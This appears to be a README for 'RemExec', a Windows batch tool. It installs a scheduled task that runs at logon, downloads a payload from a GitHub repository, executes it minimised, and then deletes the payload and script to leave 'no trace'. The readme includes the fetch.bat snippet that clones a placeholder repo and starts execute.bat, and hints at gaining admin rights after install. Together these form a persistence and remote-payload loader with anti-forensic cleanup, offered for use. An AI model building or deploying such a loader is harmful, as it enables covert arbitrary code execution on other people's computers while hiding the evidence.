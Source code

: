 To install it run the "elevate.bat" no admin required for now... It will be required ~3 seconds later :). This will create a task from "fetch.xml" that is visible in Task Scheduler on main page and will be started at user logon!

*create "safe.txt" to bypass the payload execution! If installed via installer in ("%localappdata%\Programs\RemExec") or in root folder in case of downloaded from here!*
  
  
  
  
  RemExec is a program that is used to download payload from a repository and execute it on a pc at starup!

-At logon a task is scheduled to run and download the payload
  
-It runs itself
  
-After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the "fetch.bat" (ONLY FILE THAT CAN BE SAFE TO EDIT)




        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit
